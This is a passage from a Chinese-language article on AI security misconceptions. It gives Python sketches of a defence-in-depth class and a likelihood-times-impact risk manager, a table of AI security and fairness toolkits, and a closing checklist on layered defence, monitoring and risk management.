| 计算开销大 | 需要在每个训练步骤中生成对抗性样本 | 训练时间增加3-10倍 |
| 不可扩展 | 对于大型模型和数据集，计算成本难以承受 | 只适用于中小模型 |
| 自适应攻击 | 攻击者可以针对特定的对抗性训练方法设计新攻击 | 防御可能被绕过 |

### 正确做法：纵深防御

```python
class DefenseInDepth:
    """纵深防御策略实现"""
    
    def __init__(self, model):
        self.model = model
        self.defense_layers = []
    
    def add_input_preprocessing(self, method='jpeg'):
        """第一层：输入预处理"""
        if method == 'jpeg':
            self.defense_layers.append({
                'name': 'JPEG Compression',
                'function': self.jpeg_compress,
                'strength': 'low',
                'overhead': 'minimal'
            })
        elif method == 'spatial_smoothing':
            self.defense_layers.append({
                'name': 'Spatial Smoothing',
                'function': self.spatial_smooth,
                'strength': 'low',
                'overhead': 'minimal'
            })
    
    def add_feature_squeezing(self, bit_depth=5):
        """第二层：特征压缩"""
        self.defense_layers.append({
            'name': f'Feature Squeezing ({bit_depth}-bit)',
            'function': lambda x: self.reduce_bit_depth(x, bit_depth),
            'strength': 'medium',
            'overhead': 'low'
        })
    
    def add_adversarial_training(self, attack_type='pgd', epsilon=0.03):
        """第三层：对抗性训练"""
        self.defense_layers.append({
            'name': f'Adversarial Training ({attack_type}, eps={epsilon})',
            'function': None,  # 训练时使用
            'strength': 'high',
            'overhead': 'high'
        })
    
    def add_detection_layer(self, threshold=0.8):
        """第四层：异常检测"""
        self.defense_layers.append({
            'name': 'Anomaly Detection',
            'function': lambda x: self.detect_anomaly(x, threshold),
            'strength': 'medium',
            'overhead': 'medium'
        })
    
    def defense_summary(self):
        """显示防御层级摘要"""
        for i, layer in enumerate(self.defense_layers):
            print(f"Layer {i+1}: {layer['name']}")
            print(f"  Strength: {layer['strength']}")
            print(f"  Overhead: {layer['overhead']}")
```

## 误区十：AI安全太复杂，无法解决

### 错误认知

"AI安全问题太多了，而且很多都没有完美解决方案，干脆不管了。"

### 为什么这个认知是错误的

虽然AI安全确实面临挑战，但"没有完美解决方案"不等于"没有解决方案"。就像传统软件安全一样，目标不是消除所有风险，而是将风险降低到可接受的水平。目前已经有许多成熟的安全工具和最佳实践可以使用。

### 现有可用的安全工具和框架

| 工具/框架 | 开发者 | 用途 | 特点 |
|----------|-------|------|------|
| IBM ART | IBM | 对抗性攻击与防御评估 | 最全面的AI安全工具库 |
| CleverHans | Google | 对抗性样本研究 | 学术研究标准工具 |
| TensorFlow Privacy | Google | 差分隐私训练 | 与TF深度集成 |
| Opacus | Meta | PyTorch差分隐私训练 | 易用，性能优化好 |
| TextAttack | UVA | NLP对抗性攻击 | 覆盖多种NLP攻击方法 |
| Fairlearn | Microsoft | 公平性评估 | 多种公平性指标 |
| AI Fairness 360 | IBM | 偏见检测与缓解 | 全面的公平性工具箱 |
| Robustness Bench | 各高校 | 鲁棒性基准测试 | 标准化评估 |

### 正确做法：风险管理框架

```python
class AIRiskManager:
    """AI安全风险管理框架"""
    
    def __init__(self):
        self.risks = []
        self.mitigations = []
    
    def identify_risks(self, system_type, data_sensitivity, deployment_env):
        """
        识别AI系统面临的安全风险
        
        基于系统类型、数据敏感度和部署环境自动生成风险清单
        """
        risk_matrix = {
            'classification': ['对抗性样本', '数据投毒', '模型窃取'],
            'generation': ['提示注入', '有害内容生成', '数据泄露'],
            'recommendation': ['数据投毒', '隐私泄露', '偏见放大'],
            'detection': ['对抗性绕过', '误报/漏报', '数据漂移'],
        }
        
        base_risks = risk_matrix.get(system_type, ['未知系统类型'])
        
        if data_sensitivity in ['high', 'critical']:
            base_risks.extend(['隐私泄露', '合规风险'])
        
        if deployment_env == 'public':
            base_risks.extend(['API滥用', '模型窃取', '拒绝服务'])
        
        self.risks = list(set(base_risks))
        return self.risks
    
    def assess_risk_level(self, risk, likelihood, impact):
        """
        评估风险等级
        
        likelihood: 1-5 (极低到极高)
        impact: 1-5 (可忽略到灾难性)
        """
        risk_score = likelihood * impact
        
        if risk_score >= 15:
            level = 'Critical'
            action = '必须立即处理'
        elif risk_score >= 10:
            level = 'High'
            action = '需要优先处理'
        elif risk_score >= 5:
            level = 'Medium'
            action = '需要计划处理'
        else:
            level = 'Low'
            action = '可以接受，定期审查'
        
        return {
            'risk': risk,
            'likelihood': likelihood,
            'impact': impact,
            'score': risk_score,
            'level': level,
            'action': action
        }
    
    def generate_report(self):
        """生成风险评估报告"""
        report = "# AI安全风险评估报告\n\n"
        report += f"已识别风险数量: {len(self.risks)}\n\n"
        
        for risk in self.risks:
            report += f"- {risk}\n"
        
        report += "\n## 建议措施\n\n"
        report += "1. 对所有已识别风险进行量化评估\n"
        report += "2. 优先处理Critical和High级别风险\n"
        report += "3. 建立持续监控和定期评估机制\n"
        report += "4. 制定安全事件应急响应计划\n"
        
        return report
```

## 总结：从误区到正确认知

十个误区的核心归结为三个根本问题：

**第一，过度简化**。将AI安全等同于某一种技术（如对抗性训练），或等同于某一个维度（如准确率）。正确做法是建立多维度、多层次的安全观。

**第二，责任错位**。认为AI安全只是AI团队或安全团队的事，实际上需要跨团队协作，涵盖技术、伦理、法律、社会多个维度。

**第三，消极态度**。认为AI安全太复杂无法解决，从而放弃努力。正确做法是采用风险管理思维，不追求完美安全，而是将风险降低到可接受水平。

避免这些误区的行动清单：

1. **建立安全文化**：AI安全不是事后补救，而是从设计阶段就要考虑的一等公民
2. **多维度评估**：准确率只是起点，还要评估鲁棒性、公平性、隐私性、可解释性
3. **纵深防御**：不依赖单一防御手段，建立多层防御体系
4. **持续监控**：AI系统上线不是终点，持续监控和定期评估才是常态
5. **跨团队协作**：AI安全是系统工程，需要技术、业务、法务多方协同
6. **风险管理**：不追求完美安全，而是系统性地识别、评估和缓解风险
7. **工具赋能**：善用现有的安全工具和框架，不要重复造轮子
8. **持续学习**：AI安全是一个快速发展的领域，保持对最新研究和攻击技术的关注
